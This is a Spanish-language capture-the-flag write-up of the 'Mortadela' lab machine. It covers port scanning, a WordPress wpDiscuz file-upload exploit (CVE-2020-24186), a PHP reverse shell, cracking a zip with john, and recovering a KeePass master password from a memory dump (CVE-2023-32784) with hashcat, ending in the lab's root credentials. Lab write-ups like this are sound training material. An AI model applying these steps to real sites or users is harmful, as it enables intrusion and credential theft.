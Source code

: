 ```yaml
---
title: "Mortadela - WriteUp"
date: Fri Aug 23 2024 11:28:12 GMT+0200 (Central European Summer Time)
categories: [WriteUps, TheHackerLabs, Linux]
tags: [wordpress, CVE-2020-24186, CVE-2023-32784, dotnet, keepass-password-dumper]
image: /assets/img/cabeceras/2024-08-23-mortadela---writeup.jpg
---
```


## Enumeración

NMAP

```bash
# Nmap 7.94SVN scan initiated Fri Apr  5 09:59:23 2024 as: nmap -sCV -p 22,80,3306 --stylesheet=https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/stable/nmap-bootstrap.xsl -oN targeted -oX targetedXML 192.168.1.44
Nmap scan report for 192.168.1.44
Host is up (0.00053s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 aa:8d:e4:75:bc:f3:f8:5e:42:d0:ee:ca:e2:c4:0b:97 (ECDSA)
|_  256 ae:fd:91:ef:42:71:cb:11:b9:66:97:bf:ec:5b:d6:4b (ED25519)
80/tcp   open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
3306/tcp open  mysql   MySQL 5.5.5-10.11.6-MariaDB-0+deb12u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.6-MariaDB-0+deb12u1
|   Thread ID: 33
|   Capabilities flags: 63486
|   Some Capabilities: SupportsLoadDataLocal, LongColumnFlag, Support41Auth, IgnoreSpaceBeforeParenthesis, SupportsTransactions, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, SupportsCompression, FoundRows, IgnoreSigpipes, InteractiveClient, ConnectWithDatabase, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: yi~aH%{bWnCA^76IK}Sf
|_  Auth Plugin Name: mysql_native_password
MAC Address: 00:0C:29:0E:4B:CF (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

FUZZ 

Descubrimos que corre un Wordpress:
```bash
$ dirsearch -u http://192.168.0.108 -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 60 --full-url
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405113824.png)

Hacemos un escaneo de plugins con NMAP y descubrimos dos, pero uno nos llama la atneción:

```bash
$ nmap -p80 192.168.0.108 --script http-wordpress-enum --script-args http-wordpress-enum.root='/wordpress/',search-limit=1000
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114001.png)


## Explotación

Buscamos vulnerabilidades y encontramos dos que se adaptan perfectamente a la versión:

```bash
$ se wpdiscuz
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114143.png)

Probamos el SearSploit pero no nos convence. Vamos a buscar por la web.

Encontramos este [CVE-2020-24186](https://github.com/meicookies/CVE-2020-24186) y nos funciona perfectamente. Creamos el archivo con la URL y ejecutamos el plugin.

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114418.png)

```bash
$ ./CVE-2020-24186 site.txt
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114501.png)

Vemos que es vulnerable y nos ha subido un archivo PHP con el que poder subir archivos.

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114541.png)

Vamos a probar de subir un shell remoto. El por defecto en estos casos.

Nos ponemos a la espera, subimos el archivo PHP con la web que hemos creado y pa dentro!

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114917.png)

Sanitizamos consola y empezamos a enumerar:

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405115151.png)

Encontramos un archivo sospechoso en /opt...

Nos lo bajamos a nuestro equipo y vemos que tiene contraseña. Le pasamos john...

```bash
$ zip2john muyconfidencial.zip > confidencial.hash
...
$ john --wordlist=/usr/share/wordlists/rockyou.txt confidencial.hash
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405120859.png)

Contraseña de descompresión: _pinkgirl_

Descomprimimos y mostramos el contenido:

Contiene dos archivos, un dumpeo de keepass y otro que es la BBDD de Keepass:

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405121117.png)

Buscamos info y encontramos el repositorio [KeePass Password Dumper](https://github.com/vdohney/keepass-password-dumper)

Debemos emular un proyecto hecho en C# y pasarle el DUMP del Keepass. Con este programa llamado _dotnet_ creamos una lista de posibles contraseñas para romper la seguridad de la base de datos del Keepass.

Instalamos [DOTNET LINUX](https://learn.microsoft.com/en-us/dotnet/core/install/linux-scripted-manual#manual-install) para Linux.

Nos clonamos el repositorio arriba mencionado y ejecutamos lo siguiente:

```bash
$ dotnet run ../KeePass.DMP passwordlist 
```

---

## Notas

Si recibimos el error del tipo:

_"/usr/share/dotnet/sdk/6.0.400/Sdks/Microsoft.NET.Sdk/targets/Microsoft.NET.TargetFrameworkInference.targets(144,5): error NETSDK1045: The current .NET SDK does not support targeting .NET 7.0.  Either target .NET 6.0 or lower, or use a version of the .NET SDK that supports .NET 7.0."_

Simplemente editamos el archivo _.csproj_ y en la línea con la etiqueta < TargetFramework > indicamos la versión que tengamos, en mi caso tuve que poner la `net6.0`

---

Recibiremos la siguiente salida:

```bash
Found: ●9
Found: ●;
Found: ●H
Found: ●[
Found: ● 
Found: ●f

Password candidates (character positions):
Unknown characters are displayed as "●"
1.:	●
2.:	a, Ï, §, ñ, D, , \, #, y, k, 9, ;, H, [,  , f, 
3.:	r, 
4.:	i, 
5.:	t, 
6.:	r, 
7.:	i, 
8.:	n, 
9.:	i, 
10.:	1, 
11.:	2, 
12.:	3, 
13.:	4, 
14.:	5, 
Combined: ●{a, Ï, §, ñ, D, , \, #, y, k, 9, ;, H, [,  , f}ritrini12345
16 possible passwords saved in passwordlist. Unknown characters indicated as ●
```

Casi casi tenemos el password. Ahora con con _john_ y _hashcat_ terminaremos la faena:


## Escalada

Obtenemos el hash de la BBDD de Keepass (archivo Database.kdbx):

```bash
$ keepass2john Database.kdbx > database.hash
```

Y por último pasamos _hashcat_ :

```bash
$ hashcat -m 13400 --username database.hash passwordlist
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405124929.png)

Aunque nos haya dado "Exhausted" y nos falte el primer carácter del password podemos intuir cuáles son los candidatos a password final:

```http
Maritrini12345
maritrini12345
```

Abrimos el archivo .kdbx con Keepass o en mi caso ya que trabajo en Linux con _KeePassXC_ y en contraseña probamos la primera con la M mayúscula y bingo! Entramos en la BBDD!

Y nos muestra con gran afecto el password de root!

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405125330.png)

Credenciales:

```http
root:Juanikonokukunero
```

Las probamos en nuestra consola y...

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405125511.png)

Enhorabuena! somos root y podemos registrar las flags!

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405130451.png)



![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405130041.png)

